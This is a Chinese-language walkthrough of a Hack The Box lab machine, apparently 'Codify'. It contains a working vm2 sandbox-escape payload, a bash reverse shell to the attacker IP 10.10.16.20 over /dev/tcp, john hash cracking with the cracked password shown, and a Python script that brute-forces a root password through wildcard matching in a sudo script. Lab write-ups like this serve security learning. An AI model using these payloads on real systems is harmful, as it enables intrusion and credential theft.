# 信息收集



先对拿到的IP进行一波IP，发现开了ssh和80，3000，8080，经过进一步探测后，发现了web端口



8080只有一个hello world，

80端口和3000端口是一样的，不过80端口会跳转了`http://codify.htb/`需要配置一个hosts



# 攻击过程

## GetShell

这是一个JS代码调试器，可以在沙箱环境下运输JS代码，不过之前vm2沙箱存在远程代码执行

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('id');
}
`

console.log(vm.run(code));
```



执行命令成功

反弹shell

```
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('bash -c "bash -i >& /dev/tcp/10.10.16.20/2333 0>&1"');
}
`

console.log(vm.run(code));
```



## hash爆破

在/var/www/contack看到了tickets.db，里面藏有了用户的hash



并且这个用户的hash在/home命令下，尝试爆破这个hash，首先先把这个hash提取出来



可以用在线的hash识别器（https://hashes.com/en/tools/hash_identifier）来识别hash类型，也可以使用hash-identifier：https://gitlab.com/kalilinux/packages/hash-identifier/-/tree/kali/master

hash-identifie是一个非常容易使用的 Python 工具，当你输入一个哈希值时，它会告诉你这个哈希值最有可能是什么哈希类型，将一系列哈希类型按可能性进行降序排列。

接下来用kali的john来进行爆破，可以用带/usr/share/wordlists下的rockyou字典，这个字典比较强大

`john --wordlist=/usr/share/wordlists/rockyou.txt aaa.txt`



爆破出了joshua的密码spongebob1，爆破后的内容存储在`~/.john/john.pot`



因为ssh端口是开放的，尝试登陆joshua用户



## 提权



sudo具有具有suid权限，并且用sudo -l看到，joshua可以执行需要root密码的mysql-backup.sh脚本



在这个脚本中，会对输入的密码进行判断，如果等于root密码则可以往后执行，否则会退出

因为这里的bash变量没有用引号就不是绝对的字符串，可以用到模式匹配的方式，也就是说通配符

于是可以构造脚本

```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

利用通配符构造输入的字符串，通过返回判断，这样就可以爆破出root密码



最后拿到root密码



登陆后拿到最后的root.txt


这次的打靶没有内网环境，但是漏洞给的还是很新，之前看到的vm2沙箱的远程代码执行，hash爆破的话第一次接触，最后提取之前只接触过可以sudo执行git进入命令行，没想到可以这样给一个脚本去爆破到root密码，还是涨见识了


参考链接：

https://www.cnblogs.com/Hekeats-L/archive/2022/09/30/16745318.html

https://www.cnblogs.com/jtmqd/p/17815669.html